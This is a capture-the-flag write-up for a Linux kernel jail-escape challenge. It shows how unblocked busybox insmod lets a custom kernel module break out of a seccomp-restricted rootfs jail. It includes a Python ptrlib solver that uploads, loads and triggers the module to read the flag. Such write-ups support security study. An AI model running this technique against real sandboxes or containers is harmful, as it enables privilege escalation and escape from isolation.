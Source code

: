 ![](attachments/Pasted%20image%2020250831013214.png)  
![](attachments/Pasted%20image%2020250830185848.png)  
In the zip file given, there is a linux kernel image, an executable, a C program source code, a CPIO rootfs file, and a run script.
![](attachments/Pasted%20image%2020250831012426.png)  
The run script itself looks like a regular qemu run command, but I prepended `#!/bin/sh` to it so I can execute it properly.
![](attachments/Pasted%20image%2020250831011131.png)  
![](attachments/Pasted%20image%2020250831011307.png)  
Decompressing the CPIO rootfs reveals a linux root directory, with an unusual directory named 'penjara', with a `bin` directory containing `busybox` and `sh` binaries, which can be used to solve the challenge.
The flag seems to be located at `/root/flag.txt`.  
Obviously, I can already see that this is going to be one of those rootfs jail challenges.
![](attachments/Pasted%20image%2020250831005338.png)  
`main.c` clarifies this, the program basically adds seccomp rules to block the commands that can be used/abused to escape the rootfs jail. I assume `main` is invoked on init.  
I thought this challenge is going to be impossible. But, however...
```
# busybox
BusyBox v1.35.0 (2023-12-25 17:04:41 UTC) multi-call binary.
BusyBox is copyrighted by many authors between 1998-2015.
Licensed under GPLv2. See source distribution for detailed
copyright notices.

Usage: busybox [function [arguments]...]
   or: busybox --list[-full]
   or: busybox --show SCRIPT
   or: busybox --install [-s] [DIR]
   or: function [arguments]...

	BusyBox is a multi-call binary that combines many common Unix
	utilities into a single executable.  Most people will create a
	link to busybox for each function they wish to use and BusyBox
	will act like whatever it was invoked as.

Currently defined functions:
	[, [[, addgroup, adduser, ar, arch, arp, arping, ascii, ash, awk,
	base32, base64, basename, bc, blkid, bunzip2, bzcat, cat, chattr,
	chgrp, chmod, chown, chroot, chrt, chvt, cksum, clear, cmp, cp, cpio,
	crc32, crond, crontab, cttyhack, cut, date, dc, dd, deallocvt,
	delgroup, deluser, devmem, df, diff, dirname, dmesg, dnsd,
	dnsdomainname, dos2unix, du, dumpkmap, echo, egrep, eject, env,
	ether-wake, expr, factor, fallocate, false, fbset, fdflush, fdformat,
	fdisk, fgrep, find, flock, fold, free, freeramdisk, fsck, fsfreeze,
	fstrim, fuser, getopt, getty, grep, gunzip, gzip, halt, hdparm, head,
	hexdump, hexedit, hostid, hostname, hwclock, i2cdetect, i2cdump,
	i2cget, i2cset, i2ctransfer, id, ifconfig, ifdown, ifup, inetd, init,
	insmod, install, ip, ipaddr, ipcrm, ipcs, iplink, ipneigh, iproute,
	iprule, iptunnel, kill, killall, killall5, klogd, last, less, link,
	linux32, linux64, linuxrc, ln, loadfont, loadkmap, logger, login,
	logname, losetup, ls, lsattr, lsmod, lsof, lspci, lsscsi, lsusb, lzcat,
	lzma, lzopcat, makedevs, md5sum, mdev, mesg, microcom, mim, mkdir,
	mkdosfs, mke2fs, mkfifo, mknod, mkpasswd, mkswap, mktemp, modprobe,
	more, mount, mountpoint, mt, mv, nameif, netstat, nice, nl, nohup,
	nologin, nproc, nslookup, nuke, od, openvt, partprobe, passwd, paste,
	patch, pidof, ping, pipe_progress, pivot_root, poweroff, printenv,
	printf, ps, pwd, rdate, readlink, readprofile, realpath, reboot,
	renice, reset, resize, resume, rm, rmdir, rmmod, route, run-init,
	run-parts, runlevel, sed, seq, setarch, setconsole, setfattr,
	setkeycodes, setlogcons, setpriv, setserial, setsid, setuidgid, sh,
	sha1sum, sha256sum, sha3sum, sha512sum, shred, sleep, sort,
	start-stop-daemon, strings, stty, su, sulogin, svc, svok, swapoff,
	swapon, switch_root, sync, sysctl, syslogd, tail, tar, tc, tee, telnet,
	test, tftp, time, top, touch, tr, traceroute, true, truncate, ts, tty,
	ubirename, udhcpc, uevent, umount, uname, uniq, unix2dos, unlink,
	unlzma, unlzop, unxz, unzip, uptime, usleep, uudecode, uuencode,
	vconfig, vi, vlock, w, watch, watchdog, wc, wget, which, who, whoami,
	xargs, xxd, xz, xzcat, yes, zcat
```
`insmod` and `modprobe`, which are available as busybox functions, aren't explicitly blocked in the seccomp rules. I can use this to load kernel modules. 
After some digging, I found this: https://github.com/SECCON/SECCON2022_final_CTF/tree/main/jeopardy/pwnable/babyescape/solver/driver. I can modify the driver source code to something like this:
![](attachments/Pasted%20image%2020250831010336.png)  
![](attachments/Pasted%20image%2020250831005945.png)  
The running kernel version is `linux 6.16.0`, so I can just download the source code, compile it, and build the kernel module for that version of the linux kernel specifically.
![](attachments/Pasted%20image%2020250831010622.png)  
After that, I can just run this script in the directory that contains the `run.sh` script, making sure that the compiled kernel driver, `pwn.ko` exists in the same directory:
```
import base64
import time
from ptrlib import *

def run(cmd):
    sock.sendlineafter("# ", cmd)

kernel = base64.b64encode(
    open("pwn.ko", "rb").read()
).decode()

sock = Process("./run.sh", cwd=".")

# Create kernel driver
for block in chunks(kernel, 1000):
    run(f'echo "{block}" >> b64')
run("busybox base64 -d b64 > pwn.ko")
run("busybox rm b64")

# Install kernel module
run("busybox insmod pwn.ko")
run("busybox mknod modpwn c 60 1")

# Invoke exploit
run("busybox cat modpwn")

# Get flag
time.sleep(1)
run("busybox cat /flag.txt")

# Drain and print all buffered output
while True:
    try:
        data = sock.recv(timeout=0.2)  # try to read with small timeout
        if not data:
            break
        print(data.decode(errors="ignore"), end="")
    except TimeoutError:
        break

# Then attach to interactive shell
sock.sh()
```
![](attachments/Pasted%20image%2020250831012323.png)  
Yep, it works. Now I can use it on the remote server, using `sock = Socket("18.143.31.243", 9008)`
But since the connection was very bad at the time the competition was going ~~and the machine didn't reset~~, I just did this:
![](attachments/roblox.png)  
That's it. lol. The flag is: `GEMASTIK18{ingfokan_pemabaran_roblox_muncak_gunung}`  


Revisit:  
![](./attachments/image.png)  
nevermind, pwn.ko is and has always been in the remote `/penjara` dir, you just had to insert and load the kernel module. not fun.